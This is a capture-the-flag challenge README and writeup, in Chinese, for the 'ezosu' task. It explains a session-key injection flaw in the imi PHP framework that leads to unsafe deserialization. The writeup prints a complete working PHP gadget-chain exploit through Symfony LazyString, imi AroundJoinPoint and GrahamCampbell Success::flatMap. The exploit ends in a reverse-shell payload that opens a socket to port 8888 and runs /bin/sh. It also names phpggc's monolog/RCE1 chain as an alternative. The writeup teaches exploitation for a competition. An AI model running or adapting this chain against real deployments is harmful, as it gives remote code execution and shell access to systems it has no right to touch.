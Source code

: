 # ezosu

# How to Start and Stop
## start
```shell
docker-compose up -d
```

## stop
```shell
docker-compose down --rmi all
```

# writeup

## unsafe session
本题利用了一个名为`imi`的框架。

本题有且只有一个路由由php处理`/config`，其实现如下：
![image-20211229211433630](https://gitee.com/AFKL/image/raw/master/img/image-20211229211433630.png)

这个路由的代码中最惹人注意的地方是，session的键值是可以被用户控制的。

imi框架是用swoole起点的，但swoole本身不支持php的原生session，所以为了兼容原生的session，imi框架自己写了一个session模块，并兼容了原生session。

在原生session文件处理的实现中，开发者使用`|`对属性进行分割，但键名没有过滤，可以插入`|`。如果用户可控键名，那么就会导致反序列化逃逸。
![image-20211229210444085](https://gitee.com/AFKL/image/raw/master/img/image-20211229210444085.png)

## find gadget

那么接下来就是找反序列化链了。本次比赛的选手找到了各种各样的链，这里先说一下预期链：

由于本人在测试时并没有找到`destruct`触发的链。所以基于反序列化函数后的代码尝试触发`toString`。但我们可以看到反序列化得到的对象，经过两行代码后就进入了`serialize`函数中。这意味着我们可以通过触发`__sleep`来触发一条序列化链。

这里是我找到的gadget。
```php
<?php
namespace Symfony\Component\String {
    class LazyString {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace Imi\Aop {
    class JoinPoint {
        protected array $args;
    }

    class AroundJoinPoint extends JoinPoint {
        private $nextProceed;

        public function __construct($a, $b)
        {
            $this->args = $a;
            $this->nextProceed = $b;
        }
    }
}

namespace GrahamCampbell\ResultType {
    class Success {
        private $value;

        public function __construct($a)
        {
            $this->value = $a;
        }
    }
}

namespace {
    $ip = "127%2E0%2E%2E1";
    $re = "php -r '\$sock=fsockopen(urldecode(\"$ip\"),8888);exec(\"/bin/sh -i <&3 >&3 2>&3\");'";

    $exp = new \Symfony\Component\String\LazyString(
        [
            new \Imi\Aop\AroundJoinPoint(
                [new \GrahamCampbell\ResultType\Success($re), "flatMap"], 
                [new \GrahamCampbell\ResultType\Success("system"), "flatMap"]
            ),
            "proceed"
        ]
    );
    echo json_encode(["aaa|".serialize($exp)."aa" => "aaaa"]);
}
```

入口是十分经典的`LazyString`，其`__sleep`会去调用`__toString`方法。一些选手使用此方法以为是什么神秘的地方调用了`__toString`，实际上是调用了`__sleep`方法。
![image-20211229232716199](https://gitee.com/AFKL/image/raw/master/img/image-20211229232716199.png)

这里我们可以调用任意类的公共方法，这里我选择了`Imi\Aop\AroundJoinPoint::proceed`:
![image-20211229232832689](https://gitee.com/AFKL/image/raw/master/img/image-20211229232832689.png)
其参数默认为null，`$args`可以通过父类属性获取，但必须是`array`类型。这个地方的动态调用虽然函数可控，但参数只有一个，且参数类型必须是`array`，是无法getshell的。那么就继续找存在动态调用的公共方法。

最终找到了`GrahamCampbell\ResultType\Success::flatMap`，其参数必须是`callable`类型。
![image-20211229233610931](https://gitee.com/AFKL/image/raw/master/img/image-20211229233610931.png)
动态调用公共方法的数组是被算作`callable`类型的，所以只要利用两次这个方法即可。

![调用流程图](https://gitee.com/AFKL/image/raw/master/img/未命名文件.png)

## other gadget

当然我说过，gadget不止这一条。有人使用`phpggc`的`monolog/RCE1`就直接打穿了（草）。
很想吐槽monolog，你都2.3.5版本了，怎么还不修链，学学人家yii啊，搞的我这道题都是非预期（bushi

还有一些队伍使用`monolog`的`destruct`加其它的类来触发反序列化链，就不说了。

如果抛开`monolog`的话，本题找`destruct`或`wakeup`起点的链其实很难。因为此框架的类属性都是限定类型的，那么找gadget就会变成java那样比较麻烦。目前来看目前没有一个队伍的起点是`imi`框架里的。

## other print

因为开发者设置的特殊规则，session键值中的`.`符号会被解释为子属性。因此链中的`.`符号必须进行特殊处理。比如我这里使用php反弹shell时将会被转义的符号url编码，在执行反弹shell代码的时候再解开。